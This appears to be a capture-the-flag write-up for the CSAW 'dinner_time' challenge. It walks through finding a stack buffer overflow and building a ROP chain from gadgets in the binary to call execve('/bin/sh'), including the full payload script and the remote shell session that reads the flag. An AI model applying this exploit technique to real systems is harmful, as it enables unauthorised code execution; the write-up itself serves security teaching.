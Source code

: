 # Description #
dinner\_time
150

Have this delicious meal

nc pwn.chal.csaw.io 10104

# Running the binary #

At first nothing seemed to happen ...

```
./dinner
What will you be having for dinner !! (:

pasta?
```

But if we sent a bigger input value we got a segmentation fault ...

```
./dinner
What will you be having for dinner !! (:

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```

# Analyzing the binary #

Checking the binary with radare2 quickly revealed that there were some suspicious functions called
entree\_x ...

```
[0x004005cb]> s sym.entree_1
[0x004005a6]> pd
┌ (fcn) sym.entree_1 7
│   sym.entree_1 ();
│           0x004005a6      55             push rbp
│           0x004005a7      4889e5         mov rbp, rsp
│           0x004005aa      0f05           syscall
└           0x004005ac      c3             ret
            0x004005ad      90             nop
            0x004005ae      5d             pop rbp
            0x004005af      c3             ret
┌ (fcn) sym.entree_2 6
│   sym.entree_2 ();
│           0x004005b0      55             push rbp
│           0x004005b1      4889e5         mov rbp, rsp
│           0x004005b4      5f             pop rdi
└           0x004005b5      c3             ret
            0x004005b6      90             nop
            0x004005b7      5d             pop rbp
            0x004005b8      c3             ret
┌ (fcn) sym.entree_3 6
│   sym.entree_3 ();
│           0x004005b9      55             push rbp
│           0x004005ba      4889e5         mov rbp, rsp
│           0x004005bd      5e             pop rsi
└           0x004005be      c3             ret
            0x004005bf      90             nop
            0x004005c0      5d             pop rbp
            0x004005c1      c3             ret
┌ (fcn) sym.entree_4 6
│   sym.entree_4 ();
│           0x004005c2      55             push rbp
│           0x004005c3      4889e5         mov rbp, rsp
│           0x004005c6      5a             pop rdx
└           0x004005c7      c3             ret
            0x004005c8      90             nop
            0x004005c9      5d             pop rbp
            0x004005ca      c3             ret
┌ (fcn) sym.entree_5 6
│   sym.entree_5 ();
│           0x004005cb      55             push rbp
│           0x004005cc      4889e5         mov rbp, rsp
│           0x004005cf      58             pop rax
└           0x004005d0      c3             ret
            0x004005d1      90             nop
            0x004005d2      5d             pop rbp
            0x004005d3      c3             ret
```

Inspecting the strings we noticed that we also had the string /bin/sh stored in the binary ...

```
[0x004005a6]> iz
000 0x00000698 0x00400698   7   8 (.rodata) ascii /bin/sh
001 0x000006a0 0x004006a0  42  43 (.rodata) ascii What will you be having for dinner !! (: \n
```

It seems that these functions (gadgets) will be very useful since the NX protection is enabled
for the binary, this will prevent us to run code from the stack ...

```
gef➤  checksec
[+] checksec for '/home/foobar/ctf/csawrt-18/pwning/Dinner_Time/dinner'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

We have a fairly big buffer to work with, around 1024 bytes ...

```
0x004005ed      488d45d0       lea rax, [s]
0x004005f1      be00040000     mov esi, 0x400                       ; 1024 ; int size
0x004005f6      4889c7         mov rdi, rax                         ; char *s
```

Our first writable return address is at offset 56, this happens because we only have 0x30 bytes
reserved on the current stack frame for our input buffer while been able to send 0x400 (1024)
bytes as our input ...

We can use syscall instruction to call execve("/bin/sh", ["/bin/sh"],NULL) so we need to push 
the values 0x3b (execve) to rax, 0x004005fe to rdi and 0x0 to rsi and rdx.

Lets start by setting the value 0x3b in RAX ...

We will create a padding of 56 bytes and add the value 0x004005cf, after that we will add 8 bytes
just to make space for the next return value, if we send our buffer we can verify that we were
able to land in the entree\_5 function, we also can see that our next saved ret is 0x42424242... the
value we set earlier ...

```py
buf = cyclic(56,n=8) + p64(0x004005cf) + "\x41" * 8 + "\x42" * 8
```

![selection](./imgs/selection.png)

After sending our buffer, we can verify that the registers have the values we need ..

![Registers](./imgs/regs)

Our final buffer ended up like this ...

```py
buf = cyclic(56,n=8)                      # padding 
buf += p64(0x004005b4) + p64(0x00400698)  # rdi = "/bin/sh" 
buf += p64(0x004005bd) + p64(0x0)         # rsi = 0
buf += p64(0x004005c6) + p64(0x0)         # rdx = 0
buf += p64(0x004005cf) + p64(0x3b)        # rax = 0x3b
buf += p64(0x004005aa) + "\x41" * 8       # syscall
```

# Getting the flag #
```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10104: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
What will you be having for dinner !! (:

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaa\xb4^E@^@^@^@^@^@\x98^F@^@^@^@^@^@\xbd^E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@;^@^@^@^@^@^@^@\xaa^E@^@^@^@^@^@AAAAAAAA
$ ls
ls
art.txt  dinner  flag.txt  run.sh
$ cat flag.txt
cat flag.txt
flag{yuUUmmm[EDITED]}
```
